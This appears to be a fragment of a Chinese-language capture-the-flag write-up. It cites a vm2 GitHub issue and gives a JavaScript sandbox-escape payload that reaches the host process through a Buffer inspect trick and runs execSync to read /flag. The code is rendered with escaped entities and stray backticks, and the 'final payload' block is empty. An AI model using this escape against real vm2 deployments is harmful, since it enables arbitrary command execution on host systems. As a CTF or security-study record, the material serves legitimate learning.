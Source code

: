 参考

[https://github.com/patriksimek/vm2/issues/268](https://github.com/patriksimek/vm2/issues/268)

这个 issues 绕过

```
var res = (function () `{` 
    try `{` require('child_process').execSync("idea") `}` catch (e) `{` `}`   
    let buffer = `{` 
      hexSlice: () =&gt; "", 
      magic: `{` 
        get [Symbol.for("nodejs.util.inspect.custom")]() `{` 
          throw f =&gt; f.constructor("return process")(); 
        `}` 
      `}` 
    `}`; 
    try `{` 
      Buffer.prototype.inspect.call(buffer, 0, `{` customInspect: true `}`); 
    `}` catch (e) `{` 
      return e(() =&gt; 0).mainModule.require('child_process').execSync("cat /flag"); 
    `}` 
  `}`)();return res
```

注意结果要用 return 返回

最后 payload

```
```